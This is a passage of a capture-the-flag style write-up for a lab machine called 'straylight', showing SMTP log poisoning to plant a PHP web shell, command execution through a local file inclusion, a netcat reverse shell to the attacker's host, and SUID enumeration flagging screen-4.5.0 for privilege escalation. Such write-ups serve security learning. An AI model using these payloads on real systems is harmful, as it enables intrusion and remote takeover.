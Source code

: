 ## Exploitation 
### SMTP Log Poisoning

Using the above procedure we inject a web shell

```console
root@kali:~$ nc -v 192.168.179.180 25
straylight [192.168.179.180] 25 (smtp) open
220 straylight ESMTP Postfix (Debian/GNU)
VRFY <?php echo shell_exec($_REQUEST['cmd']); ?>
501 5.1.3 Bad recipient address syntax
```

We check that the **id** command is being executed correctly.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=id" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We check that netcat is installed on the target.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=whereis nc" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 /bin/nc.traditional /bin/nc /usr/share/man/man1/nc.1.gz
```

We start a netcat listener on port 433, and execute the following curl request.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=nc 192.168.179.1 443 -e /bin/bash"
```

We have a shell with privileges of user www-data.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.180] 38922
python -c "import pty; pty.spawn('/bin/bash')"
www-data@straylight:/var/www/html/turing-bolo$ 
```

When listing the SUID binaries, screen-4.5.0 was detected, this is a vulnerable version that allows privilege escalation.

```console
www-data@straylight:/home/turing-police$ find / -perm -u=s -type f 2>/dev/null
<uring-police$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
www-data@straylight:/home/turing-police$
```
